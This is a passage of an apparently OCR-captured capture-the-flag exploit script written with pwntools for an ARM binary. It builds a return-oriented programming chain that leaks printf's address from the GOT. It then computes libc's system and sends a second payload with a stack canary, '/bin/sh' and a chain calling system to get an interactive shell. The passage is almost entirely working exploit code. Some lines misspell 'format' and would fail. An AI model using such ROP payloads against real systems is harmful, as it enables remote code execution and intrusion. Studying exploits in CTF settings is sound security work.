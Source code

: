 payload += p32(0)
payload += p32(0)
payload += p32(0x000105dc)#pop {r3, pc}
payload += p32(0x00010660) #puts@plt
payload += p32(0x1106c) #mov r0, r7 bl r3
payload += p32(0x1106c) #mov r0, r7 bl r3
payload += p32(0)
payload += p32(0)
payload += p32(0)
payload += p32(0x00022014) #printfgot
payload += p32(0)
payload += p32(0)
payload += p32(0x00010FB4) #go back to main


r.send("echo "+payload)
r.recv()
r.sendline("exit")

r.recv()
data = r.recv()

if local:
	system = u32(data[0:4])-44029
	read = system+0x5cc80
	write = system+0x5cd00
	op = system+0x5c900

	log.info("Read: {}".fomrat(hex(read)))
	log.info("Write: {}".fomrat(hex(write)))
	log.info("Open: {}".fomrat(hex(op)))

else:
	libc.address = u32(data[0:4])-libc.symbols['printf']
	system = libc.symbols['system']

log.info("System: {}".format(hex(system)))

payload = ""
payload += "/bin/sh\x00"
payload += "\x90"*115
payload += p32(canary)
payload += "B"*4
payload += p32(0x1107c) #pop {r4, r5, r6, r7, r8, r9, sl, pc}
payload += p32(0)
payload += p32(0)
payload += p32(0)
payload += p32(stack_leak) #/bin/sh
payload += p32(0)
payload += p32(0)
payload += p32(0)
payload += p32(0x000105dc)#pop {r3, pc}
payload += p32(system)
payload += p32(0x0001106c) # mov r0, r7 ; blx r3

r.sendline("3")
r.recv()
r.sendline("echo "+payload)
r.recv()
r.sendline("exit")

r.interactive()

{% endhighlight %}

